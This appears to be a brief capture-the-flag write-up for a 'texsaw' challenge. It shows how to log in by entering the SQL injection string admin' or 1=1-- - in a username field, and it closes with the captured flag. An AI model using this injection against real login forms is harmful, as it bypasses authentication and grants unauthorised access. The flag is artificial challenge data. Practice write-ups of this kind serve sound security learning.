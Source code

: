 
In the username filed type
```
admin' or 1=1-- -
```

Write any value in password field and press Login

We get flag

flag : texsaw{IEYiCctrKhUtvQ5mDvvxjjDI7x3n2Jew9jkWQojt}
